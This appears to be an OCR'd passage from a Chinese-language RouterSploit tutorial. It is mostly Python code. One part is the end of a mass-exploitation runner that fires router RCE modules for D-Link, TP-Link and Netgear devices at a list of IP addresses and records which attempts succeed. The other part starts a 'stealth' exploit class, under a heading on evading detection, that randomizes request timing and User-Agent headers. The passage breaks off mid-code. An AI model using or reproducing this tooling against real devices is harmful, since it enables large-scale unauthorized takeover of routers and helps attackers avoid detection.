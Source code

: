 ```python
            
            result = exploit.run()
            
            with self.lock:
                if target not in self.results:
                    self.results[target] = []
                self.results[target].append({
                    'exploit': exploit_path,
                    'result': result,
                    'success': result is not None
                })
            
            signal.alarm(0)  # 取消超时
            
        except Exception as e:
            print(f"Error on {target} with {exploit_path}: {e}")

# 使用示例
if __name__ == "__main__":
    ars = AdvancedRouterSploit()
    targets = ["192.168.1.1", "192.168.1.2", "192.168.1.3"]
    exploits_list = [
        "exploits/routers/dlink/dir_8xx_rce",
        "exploits/routers/tplink/archer_c60_rce",
        "exploits/routers/netgear/multi_rce"
    ]
    
    ars.mass_exploit(targets, exploits_list)
    print(ars.results)
```

---

## 二、规避检测与隐蔽操作

### 1. 流量混淆技术

```python
from routersploit.core.exploit import *
import random
import base64

class StealthExploit(HTTPClient):
    """隐蔽的漏洞利用模块"""
    
    def __init__(self):
        self.user_agents = [
            'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36',
            'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36',
            'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36',
            'Mozilla/5.0 (iPhone; CPU iPhone OS 14_0 like Mac OS X) AppleWebKit/537.36'
        ]
    
    def stealth_request(self, method, path, **kwargs):
        """隐蔽的HTTP请求"""
        # 随机延迟
        time.sleep(random.uniform(1, 5))
        
        # 随机User-Agent
        headers = kwargs.get('headers', {})
        headers['User-Agent'] = random.choice(self.user_agents)
        kwargs['headers'] = headers
        
```